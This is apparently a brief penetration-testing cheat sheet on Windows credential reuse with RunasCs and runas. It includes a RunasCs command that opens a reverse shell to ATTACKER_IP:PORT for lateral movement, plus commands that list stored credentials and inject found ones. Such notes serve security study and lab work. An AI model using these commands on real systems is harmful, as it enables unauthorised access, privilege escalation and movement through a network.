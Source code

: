 # Runas

## Use case: 

### Use this when we have found credentials for a user, but we have no other methods to authenticate (Win-RM, etc). Essentialy, we inject the credentials found in memory to authenticate with these valid credentials. Can be used to switch users on the current host only!

## Github repo: https://github.com/antonioCoco/RunasCs/releases/tag/v1.5

### Command:

    .\RunasCs.exe USERNAME PASSWORD cmd.exe ATTACKER_IP:PORT (Execute a reverse shell as the authenticated user for lateral movement/privesc)

## More Commands

#### 1) 

    cmdkey /list

#### 2) 

    runas /savecred /user:USER\DOMAIN cmd.exe

## Credential Injection

    runas.exe /netonly /user:DOMAIN\USERNAME cmd.exe


#### Use credentials we found in case that we don't know where to exactly use them.

### TIP:

#### With /netonly, it can accept any password.

